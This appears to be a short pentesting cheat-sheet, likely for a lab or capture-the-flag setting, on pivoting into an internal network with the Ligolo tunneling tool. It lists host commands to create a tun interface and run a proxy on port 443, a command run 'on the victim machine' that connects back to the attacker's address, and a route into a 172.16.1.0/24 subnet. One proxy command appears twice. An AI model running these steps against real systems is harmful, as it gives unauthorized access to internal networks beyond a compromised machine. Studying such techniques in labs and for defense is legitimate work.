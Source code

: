 ## Host Machine
```
sudo ip tuntap add user p3ta mode tun ligolo 
```

```
sudo ip link set ligolo up
```

```
sudo ./proxy -selfcert -laddr 0.0.0.0:443
```

```
sudo ./proxy -selfcert -laddr 0.0.0.0:443
```

## On Victim Machine
```
./agent -connect 10.10.14.21:443 -ignore-cert
```

## On Host Machine
```
sudo ip route add 172.16.1.0/24 dev ligolo
```